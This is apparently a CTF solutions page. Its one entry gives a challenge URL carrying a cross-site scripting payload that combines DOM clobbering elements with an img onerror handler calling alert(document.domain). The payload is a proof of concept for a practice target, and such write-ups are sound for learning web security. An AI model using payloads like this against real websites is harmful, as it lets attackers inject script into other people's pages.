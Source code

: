 # Solutions


Chal1 - `https://ctf.0xgodson.me/chal1/?name=<img name=Domain><input id=admin value="<img src=x onerror=alert(document.domain)>">`
